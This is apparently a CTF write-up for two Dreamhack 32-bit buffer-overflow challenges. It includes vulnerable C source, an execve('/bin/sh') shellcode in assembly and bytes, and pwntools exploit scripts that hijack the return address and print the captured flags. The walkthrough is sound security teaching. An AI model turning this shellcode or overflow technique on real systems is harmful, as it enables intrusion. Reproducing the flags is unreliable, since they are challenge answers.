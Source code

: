 ```yaml
---
title: "[DREAMHACK] - Basic exploitation series"
published: 2025-01-30
description: ""
image: "../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## basic_exploitation_00

### Analysis

Let's take a look at the binary:

```bash
➜  basic_exploitation_00 file basic_exploitation_000
basic_exploitation_000: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0b1247f86255866edcc25bf1af6c782a3d29975, not stripped
➜  basic_exploitation_00 checksec --file=basic_exploitation_000
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   79 Symbols        No    0               1               basic_exploitation_000

```

A 32-bit LSB executable file with no stack canary, so we can be able to smash the stack

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

So in the main() function there's a vuln here `scanf("%141s", buf);`. The buf just can contain 0x80 byte but our input is 141 bytes so there's a buffer overflow vulnerability.

The idea of this challenge is crafting the shellcode and make it execute by triggering the return address to make it return to our buffer started address have leaked while we run the binary

```bash
➜  basic_exploitation_00 ./basic_exploitation_000
buf = (0xff997ff8)
hello

```

But first things we need to do is find the offset between our input and eip (this is a 32-bit binary)

```nasm
gef➤  tel
0xffffcb80│+0x0000: 0x080486a5  →  "%141s"       ← $esp
0xffffcb84│+0x0004: 0xffffcb88  →  "hello"
0xffffcb88│+0x0008: "hello"
0xffffcb8c│+0x000c: 0x0000006f ("o"?)
0xffffcb90│+0x0010: 0x00000000
0xffffcb94│+0x0014: 0x00000001
0xffffcb98│+0x0018: 0xf7ffda20  →  0x00000000
0xffffcb9c│+0x001c: 0x00000000
0xffffcba0│+0x0020: 0x00000000
0xffffcba4│+0x0024: 0xffffce0b  →  0x98bb4ff4

```

We can see our input start at `0xffffcb88` and the saved eip is `0xffffcc0c` so we can calculate the offset is `0x84`

### Exploit

As the idea above, we need to craft the shellcode, so the first thing we need to do is write an assembly code to use execve() syscall to get shell:

```nasm
section .text
    global _start

_start:
    xor eax, eax; safe null
    push eax; push null byte onto stack
    push 0x68732f2f ; push /bin//sh
    push 0x6e69622f
    mov ebx,esp ; set ebx to out cmd
    xor ecx, ecx; no args
    xor edx, edx ; no args again
    mov al, 0xb ; set sys_execve
    int 0x80

; nasm -f elf shellcode.asm
; ld -m elf_i386 -o shellcode shellcode.o
;  objdump -d shellcode | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\\n' | sed 's/.\\{2\\}/&\\\\x /g'| head -c-3 | tr -d ' ' && echo ' '

```

And our exploit will look like this:

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
exe = context.binary = ELF('./basic_exploitation_000', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

c
''')

p = remote('host3.dreamhack.games',19046) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

buf = int(p.recv()[7:17],16)
print("buf address : "+hex(buf))

payload = b"\\x90"*6
payload += b"\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x08\\x40\\x40\\x40\\xcd\\x80"
payload += b"\\x90"*100 # nop
payload += p32(buf)

p.sendline(payload)

p.interactive()

```

```bash
➜  basic_exploitation_00 python3 exploit.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 19046: Done
buf address : 0xfff90548
[*] Switching to interactive mode
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$
```

## basic_exploitation_001

### Analysis

This challenge is the same as above but more easy to exploit
So let's take a quick look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}

```

So our target is `read_flag()` function by using `gets()` function we can easily tell the our program to execute that function

A step to find offset is the same as `basic_exploitation_000`

### Exploit

```python
from pwn import *

p = remote('host3.dreamhack.games', 10179)
exe = ELF('./basic_exploitation_001', checksec = False)

pl = b'A'*132
pl+= p32(exe.sym['read_flag'])

p.sendline(pl)
p.interactive()

```

```bash
➜  basic_exploitation_1 python3 exploit.py
[+] Opening connection to host3.dreamhack.games on port 10179: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive

```

